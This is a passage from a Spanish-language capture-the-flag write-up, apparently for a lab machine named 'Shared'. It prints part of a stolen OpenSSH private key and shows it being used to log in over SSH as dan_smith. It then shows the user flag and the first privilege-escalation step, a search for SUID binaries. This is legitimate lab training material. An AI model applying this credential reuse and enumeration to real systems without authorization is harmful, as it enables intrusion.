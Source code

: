 ```bash
SENrA1qkplhN/wPta/wDX0v9hX9i+2ygYSicVp6CtXpd9KPsG0JvERiVNbwWxD3gXcm0BE
wMtlVDb4WN1SG5Cpyx9ZhkdU+t0gZ225YYNiyWob3IaZYWVkNkeijRD+ijEY4rN41hiHlW
HPDeHZn0yt8fTeFAm+Ny4+8+dLXMlZM5quPoa0zBbxzMZWpSI9E6j6rPWs2sJmBBEKVLQs
tfJMvuTgb3NhHvUwAAAAtyb290QHNoYXJlZAECAwQFBg==
-----END OPENSSH PRIVATE KEY-----
```

## Shell as dam_smith

```bash
❯ nano id_rsa
❯ chmod 600 id_rsa
```

Ahora nos conectamos

```bash
❯ ssh -i id_rsa dan_smith@10.10.11.172
Linux shared 5.10.0-16-amd64 #1 SMP Debian 5.10.127-1 (2022-06-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jul 14 14:43:34 2022 from 10.10.14.4
dan_smith@shared:~$ export TERM=xterm
dan_smith@shared:~$ 
```

## User.txt 

```bash
dan_smith@shared:~$ cat user.txt 
62272b52c22511eed9e0dc0a58a31f80
dan_smith@shared:~$ 
```

## Escalada de Privilegios 

Ahora estamos en el grupo `sysadmin`

```bash
dan_smith@shared:~$ id
uid=1001(dan_smith) gid=1002(dan_smith) groups=1002(dan_smith),1001(developer),1003(sysadmin)
dan_smith@shared:~$ 
```

No vemos nada interesante 

```bash
dan_smith@shared:/$ find \-perm -4000 2>/dev/null
./usr/bin/gpasswd
./usr/bin/su
./usr/bin/fusermount
./usr/bin/chfn
./usr/bin/passwd
./usr/bin/chsh
./usr/bin/newgrp
./usr/bin/umount
./usr/bin/mount
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/openssh/ssh-keysign
dan_smith@shared:/$ 
```
